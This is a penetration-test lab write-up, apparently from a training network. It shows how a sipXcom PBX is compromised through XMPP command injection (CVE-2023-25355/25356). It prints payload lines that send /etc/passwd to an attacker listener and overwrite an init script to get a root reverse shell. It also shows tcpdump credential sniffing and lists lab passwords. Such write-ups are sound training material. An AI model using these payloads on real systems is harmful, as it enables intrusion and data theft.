# PBX

## Enumeration

Host at `172.16.XXX.32`. Output from `nmap` command run [here](./#nmap-scan):

```
Nmap scan report for vm19.skylark.com (172.16.151.32)
Host is up (3.1s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
21/tcp  open  ftp      vsftpd 3.0.2
22/tcp  open  ssh      OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 b8:55:0b:06:71:2f:a0:96:ad:ea:e6:11:33:f2:84:ce (RSA)
|   256 dc:96:87:95:35:a0:8c:f5:49:59:5b:d3:e0:fc:ab:ad (ECDSA)
|_  256 c0:5b:79:2c:40:f3:81:47:65:1a:24:4e:3a:52:99:8f (ED25519)
80/tcp  open  http     Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips)
|_http-title: Did not follow redirect to https://vm19.skylark.com/sipxconfig/app
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips
443/tcp open  ssl/http Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips)
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips
| http-cookie-flags: 
|   /: 
|     JSESSIONID: 
|_      httponly flag not set
|_ssl-date: TLS randomness does not represent time
|_http-generator: Tapestry Application Framework, version 4.1.6-SNAPSHOT
| http-title: sipXcom
|_Requested resource was https://vm19.skylark.com/sipxconfig/app
| ssl-cert: Subject: commonName=pbx.syklark.com/organizationName=syklark.com/stateOrProvinceName=AnyState/countryName=US
| Subject Alternative Name: DNS:pbx.syklark.com
| Not valid before: 2023-01-05T09:11:39
|_Not valid after:  2026-01-05T09:11:39
OS fingerprint not ideal because: Didn't receive UDP response. Please try again with -sSU
No OS matches for host
Service Info: OS: Unix
```

### Web Server (Ports 80 & 443)

At this point I only have access via the Squid proxy on `AMSTERDAM05`. This is not ideal for enumeration so I stick to things I can do with that.&#x20;

#### FoxyProxy Configuration

`FoxyProxy` supports Squid so I configure myself a new proxy session:

<figure><figcaption><p>Initial configuration of FoxyProxy</p></figcaption></figure>

#### HTTP Enumeration

Once the setup is complete I can select that proxy and head to the web server. I need to use the IP address instead of a hostname in the URL. Regardless, a sign in portal loads once I navigate to `http://172.16.XXX.32` (it actually redirects to `https://172.16.XXX.32`):

<figure><figcaption><p>Login portal at port 443</p></figcaption></figure>

I start trying different known credentials here. The credentials `l.nguyen:ChangeMePlease__XMPPTest` from `sip.cfg` [found on `PARIS03`](../external/vm13.md#credentials-in-files) work.&#x20;

Interesting side note, with my initial Squid configuration this page immediately failed to load after sign in:

<figure><figcaption><p>Error after login</p></figcaption></figure>

I later updated my Squid config to use the hostname `amsterdam05.skylark.com` (which I have as an entry in `/etc/hosts` on my machine):

<figure><figcaption><p>Updated FoxyProxy configuration</p></figcaption></figure>

After this change the site loaded successfully:

<figure><figcaption><p>Landing page after login</p></figcaption></figure>

## Foothold

### sipXcom RCE

After successfully logging in, I start looking around for the version which I find:

<figure><figcaption><p>sipXcom version</p></figcaption></figure>

Googling "[sipXcom 21.04 CVE](https://www.google.com/search?client=firefox-b-1-e\&q=sipxcom+21.04+cve)" returns results for a [remote command injection vulnerability](https://seclists.org/fulldisclosure/2023/Mar/5). It is triggered by sending messages through the XMPP server component:

<figure><figcaption><p>Portion of the disclosure describing file leaks</p></figcaption></figure>

This means I need a messaging client to connect to the machine.

#### Pidgin

Getting this configured was tricky. It seems the service is really temperamental and I had to revert the machines many times but eventually the configuration options that worked were:

<div>

<figure><figcaption></figcaption></figure>

 

<figure><figcaption><p>Configuration of Pidgin</p></figcaption></figure>

 

<figure><figcaption></figcaption></figure>

</div>

Once set up like this the client starts working. At this point I could add a buddy (another user, I chose `j.jameson`) and send them messages. I started with the first payload which leaked the `/etc/passwd` file of the machine. The "message" to payload for this is:

```
@call abc -o/tmp/test123 -d @/etc/passwd http://192.168.45.157/abc
```

I start a Netcat listener on port 80 and then send the message:

<figure><figcaption><p>Leaking /etc/passwd via Pidgin</p></figcaption></figure>

Pidgin had been such a pain I started looking for alternatives.

#### Python Exploit

Eventually I found [this PoC](https://github.com/AlexLinov/sipXcom-RCE) written in Python. It automates the connection and sending of the messages. I can run it via `proxychains` to send the traffic through the Squid proxy.

The exploit offers 2 payload options:

1. Leak `sipXcom` log files
2. Download `openfire.txt` (malicious config file) to the victim

I start with option `1`. This will leak the service's message log files via curl. I need to set up a listener of some sort and just use Netcat:&#x20;

```bash
nc -lvnp 80
```


```bash
proxychains python3 CVE-2023-25355-25356.py --username l.nguyen --password ChangeMePlease__XMPPTest --target_jid l.nguyen@skylark.com --server_address 172.16.222.32 --payload_option 1 --attack_ip 192.168.45.157 --port 80
```


I am happy to catch something in my listener but I also notice something in the output. It mentions a `superadmin` user and its password:

<figure><figcaption><p>superadmin password</p></figcaption></figure>

#### Reverse Shell

The disclosure also includes a section about CVE-2023-25355 which allows the overwriting on sipXcom's configuration files. This is helpful because the configuration files contain bash commands that are run when the XMPP service is restarted.

The authors include a model malicious `openfire.txt` config file as an example. I copy it and only modify the shell command to correct my IP/port:

<figure><figcaption><p>Only modification in openfire.txt</p></figcaption></figure>

I can now host the malicious copy of the config file on an HTTP server as `openfire.txt` and then use this message-injection-command to download it:


```
@call abc -o /tmp/dummy -o /etc/init.d/openfire -X GET http://192.168.45.157/tmp/openfire.txt -o /tmp/dummy
```


This can also be done with the exploit:


```bash
proxychains python3 CVE-2023-25355-25356.py --username l.nguyen --password ChangeMePlease__XMPPTest --target_jid l.nguyen@skylark.com --server_address 172.16.222.32 --payload_option 2 --attack_ip 192.168.45.157 --port 80 --file openfire.txt
```


<figure><figcaption><p>CLI output of second payload to overwrite configuration file</p></figcaption></figure>

#### Launching the Shell

Once the file has been downloaded the shell can is launched by restarting the service. As the disclosure author notes, this is simple if you have the `superadmin` credentials:

<figure><figcaption><p>Section of disclosure mentioning how to restart service</p></figcaption></figure>

Fortunately I found these credentials [earlier](pbx.md#python-exploit). Once I log in as `superadmin` I find the service restart menu and launch my shell:

<figure><figcaption><p>Navigate to service restart menu</p></figcaption></figure>

Then start a listener, restart the service, and catch a shell:

<figure><figcaption><p>Restart the service</p></figcaption></figure>

<figure><figcaption><p>Caught shell</p></figcaption></figure>

My shell is running as the `root` user so privilege escalation is unnecessary.

## Post-Exploit

### Proxy Setup

The Squid proxy is terrible so one of the first things I do is set up a `ligolo-ng` agent on this machine and configure a proxy to the `172.16.XXX.0/24` network:

<figure><figcaption><p>Setting up ligolo-ng tunnel from proxy interface</p></figcaption></figure>

### Manual Enumeration

I spent awhile poking around the machine manually.

#### `tcpdump` Credential Leak

Eventually while listening to UDP traffic on the `ens192` interface I found some credentials:

```
tcpdump -i ens192 -vvv
```

<figure><figcaption><p>Credentials leaked in network traffic</p></figcaption></figure>

They are coming from the `172.16.XXX.30` machine. I decide to try the credentials there. The machine has ports 3390 and 22 open. I first tried it with the Linux RDP port (3390) since the `desktop` username implied it might be for that. This works:

<figure><figcaption><p>Desktop access on port 3390</p></figcaption></figure>

After a bit I did not like this interface and I tried the credentials on SSH where they also worked:

<figure><figcaption><p>SSH access</p></figcaption></figure>

After validating, I add the credentials to `creds.txt`:

<pre data-title="creds.txt"><code><strong>...
</strong>ext_acc         DoNotShare!SkyLarkLegacyInternal2008    Squid proxy credentials (proxy is on AMSTERDAM05)
<strong>desktop         Deskt0pTermin4L             Found with "tcpdump -i ens192 -vvv" run on PBX (provides SSH access on TERMINAL)
</strong></code></pre>

The rest of the writeup will be on the [`TERMINAL` page](terminal.md#privilege-escalation).
